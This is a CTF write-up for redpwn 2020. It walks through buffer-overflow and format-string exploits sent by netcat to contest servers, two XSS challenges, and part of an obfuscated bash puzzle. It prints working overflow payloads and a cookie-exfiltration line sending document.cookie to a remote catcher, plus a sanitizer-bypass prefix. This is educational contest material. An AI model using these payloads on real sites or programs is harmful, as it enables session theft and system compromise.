# redpwn 2020

Published 25 June 2020 by Shawn Duong (IrisCS skat).

Contents:
- pwn
  - coffer-overflow-0
  - coffer-overflow-1
  - coffer-overflow-2
  - secret-flag
- web
  - static-pastebin
  - static-static-hosting
- misc
  - uglybash

All files can be found in the [redpwn directory](./files/2020-redpwn/)

## coffer-overflow-0

Files: `coffer-overflow-0`, `coffer-overflow-0.c`

This level is a great introduction to buffer overflows which is why I'm including it in this set of writeups. Buffer overflows are absolutely essential to binary exploitation. To explain them as simply as possible: input you enter into a program is written into a range of memory addresses, known as a buffer. Supplying a greater amount of input than the program was originally intended to handle results in an overflow of the buffer and allows for adjacent memory to be overwritten, enabling all sorts of funky things to happen. A skilled attacker can control this behavior to change the way a program will run.

For this level, we're given the source code so we don't need to worry about reverse engineering.

```c
#include <stdio.h>
#include <string.h>

int main(void)
{
  long code = 0;
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);

  if(code != 0) {
    system("/bin/sh");
  }
}
```

This is as simple as buffer overflows go. If `code` is not `0`, then we will get a shell. All that we have to do is overflow the `name` buffer such that we overwrite the adjacent memory belonging to `code`, changing its value. Because `name` is 16 bytes, we can accomplish this by inputting a much greater amount.

In this case, I'm using Python to generate a payload of 32 bytes and sending it to the remote flag server via netcat. After doing so, we get a shell and can execute commands such as `ls` and `cat`.

```
[skat@iris:~] $ (python2 -c "print 'A'*32"; cat) | nc 2020.redpwnc.tf 31199
Welcome to coffer overflow, where our coffers are overfilling with bytes ;)
What do you want to fill your coffer with?
ls
Makefile
bin
coffer-overflow-0
coffer-overflow-0.c
dev
flag.txt
lib
lib32
lib64
cat flag.txt
flag{b0ffer_0verf10w_3asy_as_123}
```

Captured!

```
flag{b0ffer_0verf10w_3asy_as_123}
```

## coffer-overflow-1

Files: `coffer-overflow-1`, `coffer-overflow-1.c`

This is a slightly more sophisticated buffer overflow challenge, but not by much.

```c
#include <stdio.h>
#include <string.h>

int main(void)
{
  long code = 0;
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);

  if(code == 0xcafebabe) {
    system("/bin/sh");
  }
}
```

In this challenge, it is not simply enough that we trigger a buffer overflow. Instead, we have to overwrite `code` in such a precise manner so that it becomes the hexadecimal sequence `cafebabe`. 

Once again, this is only *slightly* more sophisticated and not by much. Our exploit will consist of 16 bytes of padding to fill up the 16 byte `name` buffer, plus an additional 8 to slide to the `code` buffer, and then finally the hexadecimal sequence `cafebabe`. However, due to bit order, we have to enter them in reverse order (i.e. `\xbe\xba\xfe\xca`).

```
[skat@iris:~] $ (python2 -c "print '\x41'*24 + '\xbe\xba\xfe\xca'"; cat) | nc 2020.redpwnc.tf 31255
Welcome to coffer overflow, where our coffers are overfilling with bytes ;)
What do you want to fill your coffer with?
ls
Makefile
bin
coffer-overflow-1
coffer-overflow-1.c
dev
flag.txt
lib
lib32
lib64
cat flag.txt
flag{th1s_0ne_wasnt_pure_gu3ssing_1_h0pe}
```

Another successful flag captured.

```
flag{th1s_0ne_wasnt_pure_gu3ssing_1_h0pe}
```

## coffer-overflow-2

Files: `coffer-overflow-2`, `coffer-overflow-2.c`

This is slightly more difficult than the previous two levels, but once again not by much. The only difference between this level and the previous level is *what* we're overwriting. The previous level dealt with overwriting another buffer. This level deals with overwriting the return address, which is typically located only a few bytes away from the last buffer in a stack frame. This is typically 8 bytes away from the end of the last buffer due to stack alignment.

```c
#include <stdio.h>
#include <string.h>

int main(void)
{
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);
}

void binFunction() {
  system("/bin/sh");
}
```

We can overwrite the return address of the `main()` function so that when it concludes operations, it will return to an arbitrarily defined memory address as specified by the attacker via the overflow. Where should `main()` return? Well, there's another function called `binFunction()` that's an obvious candidate. We can get the address of `binFunction()` through `objdump`.

```
[skat@iris:~] $ objdump -d -M intel coffer-overflow-2 | grep "binFunction"
00000000004006e6 <binFunction>:
```

The address of `binFunction()` is `0x4006e6`, or as an 8-byte little-endian hexadecimal address encoded in Python, `\xe6\x06\x40\x00\x00\x00\x00\x00`. Our exploit will consist of 16 bytes to fill up the `name` buffer, 8 bytes to slide to the location of the return address of the `main()` function, and then the address of the `binFunction()` function.

```
[skat@iris:~] $ (python2 -c "print '\x41'*24 + '\xe6\x06\x40\x00\x00\x00\x00'"; cat) | nc 2020.redpwnc.tf 31908
Welcome to coffer overflow, where our coffers are overfilling with bytes ;)
What do you want to fill your coffer with?
ls
Makefile
bin
coffer-overflow-2
coffer-overflow-2.c
dev
flag.txt
lib
lib32
lib64
cat flag.txt
flag{ret_to_b1n_m0re_l1k3_r3t_t0_w1n}
```

Another flag.

```
flag{ret_to_b1n_m0re_l1k3_r3t_t0_w1n}
```

## secret-flag

Files: `secret-flag`

This one is a really cool binary exploitation attack that doesn't necessarily deal with buffer overflows, but rather, a vulnerability in format strings.

If you have a look at the functions that this program uses (`objdump -d`), you can see that it uses `printf()` to echo back to your whatever input you entered. You can leak information about the program, including the flag it loads into the stack, by using `%n$s` where `n` is a number. What this essentially means is "print as a string the nth number from the stack." After some testing, I found the flag being the 7th item in the stack.

```
[skat@iris:~] $ nc 2020.redpwnc.tf 31826
I have a secret flag, which you'll never get!
What is your name, young adventurer?
%7$s
Hello there: flag{n0t_s0_s3cr3t_f1ag_n0w}
```

Got the flag.

```
flag{n0t_s0_s3cr3t_f1ag_n0w}
```

This was a really interesting challenge. Format string exploits are pretty neat and simple but I rarely see them anymore.

## static-pastebin

We're given a site where we can paste data, similar to the real-life Pastebin. Immediately, my mind jumps to XSS (cross-site scripting), a form of web vulnerability in which an attacker is able to inject their own HTML/JavaScript into a web page. If we can inject some sort of client-side script, we can get their browser to execute our arbitrary code. This means that we can fetch someone's `document.cookie` and in turn, potentially hijack their session.

Let's first test for XSS by trying to inject some HTML. Here, my payload is just an image hosted on a remote site. If I create this paste, then this HTML will become a part of the web page on which the paste resides on and hopefully allow me to get visitors to execute my arbitrary code.



Unfortunately, as we can see below, the image is not displayed. If we open up our developer console and have a look at the HTML source of the page, then we can see that our payload was removed entirely. This suggests that there's some sort of sanitization at work to ensure that this sort of attack doesn't happen.


One of the ways that we can bypass this is by prefixing our injection with `javascript:/*-->`, which can cause the code performing the sanitization to hopefully break if this is not accounted for and hopefully allow us to smuggle in our payload.



As we can see, the image is now displayed. We've successfully proven that arbitrary HTML code execution is possible!



Now it's time to weaponize this into full-on XSS in order to steal cookies and exfiltrate them to a remote server we have control over. This can be accomplished by replacing the value of the `src` attribute of the `img` tag with one that will not work, and then making use of the `onerror` attribute to execute arbitrary JavaScript. Let's first test to see if we can get `alert(0)` to execute just to prove that we are indeed able to inject and run JavaScript.



And it's successful!



Let's prepare our final payload now that we have proven arbitrary HTML code execution and by extension, arbitrary JavaScript code execution. Instead of `alert(0)` which was just for proof of concept, we will now be using `document.location` in order to redirect the user to a remote server, and we will also be using `+document.cookie` to send their document cookie to our remote location. Here, I'm using PostBin as a cookie catcher.



(I have of course censored the part of the image that refers to the ID of the specific bin I used.)

After creating the paste, all that's left to do is send the URL to the admin. After we send the URL to the admin, they will go to the page, their browser will execute our injected code, and their cookie will get sent to our remote cookie catcher.



We can now go to our cookie catcher and see what sort of data we've captured.



And just like that, we've captured the flag!

```
flag{54n1t1z4t10n_k1nd4_h4rd}
```

## static-static-hosting

This is similar to the previous level, but they've improved their input sanitization in order to make sure that our previous payload won't work here. After a lot of testing, I found out that `iframe` tags still worked!



As we can see, an `iframe` to my blog (shameless plug) was able to be executed with no problems.



This can be weaponized into full-on XSS by specifying JavaScript in the `src` instead of a legitimate website. Here, we can use `javascript:` to manipulate the `iframe` into executing JavaScript, and `window.location.href="website.xyz/catcher?data="+document.cookie` to exfiltrate the visitor's cookie to a remote server in the same fashion as the last level.



After creating our paste, we will once again send the URL to the admin and wait for them to visit.



Afterwards, we can visit the cookie catcher to once again view the cookie we've stolen.



Another successful flag capture.

```
flag{wh0_n33d5_d0mpur1fy}
```

## uglybash

Files: `cmd.sh`

This one was without a doubt one of the coolest challenges from this competition. We're given a very ugly Bash script that has been obfuscated using Bashfuscator. The flag was a comment in the original Bash script, which means that we can't simply recover it by running the script.

The solution that I found was to use the `-x` flag, which prints out commands and their arguments as they are executed. If we run `$ bash -x ./cmd.sh`, we can see a pattern towards the end that suggests a flag.

```
+++ printf %s y
+++ for VS2R4y in $[  (-(-(3${*~~}#"1""${@/&=7I2ZJ}"1+"9""#"1)+${@~~}57#0)) ] ${@#-\(>G:=l} ${@##liW$} $[  ((-2#101-2"#""1""1"1)+"5"2"${@//H34o/\]6$=7u}"#${*,,}j) ] ${@,,} ${@^^} $[ ((2${*}#100*"-"${*~}4#"1"1)+${*^}18#22) ] ${!@} ${*,} $[  (-(-(23"#""f"--42#2)+7"#"12))   ] ${*//\]Kxy14./:D.-L\(} $[  ((4"#"${*}11-2"8"#0)+11"#""1"0)   ] "${@%%J\)\)?7\(n}" "${@%%~\J2LrQ}" $((   (-(-("${@%8Yzpz@H}"-56#"1"-${*/C\oI,C:/~2^DZha}-6#11)+6${*##\!KW^\{}0${*//VEUHMT\}}#0))   )) ${@//,\)tNL} ${*} $(( (("-"2#1"1"*"2"7#2)+"5"0"#"e)  )) ${@/rI%kSy/22\!9x*UR} "${@^^}" $[   (("2"4#2*-"5""#"11)+44"#"z)   ] ${*%*SQ\`&\"} ${*~~} $(( ((-17${*~~}#1*6"0"#1)+2${@%\!ScFB}#1${!@}00)  )) ${*} ${*//asl#r:/+h^c-p:} $[  ((-5"#"${*}1"${@/e\{cE|/\!P\[4}"0*12#${*~}1)+2"3""#"l)   ] ${!@} ${*%%UE28?+&} $[  (-(-(30#h+5#13)+48#1))  ] ${*~~} ${!@} $[  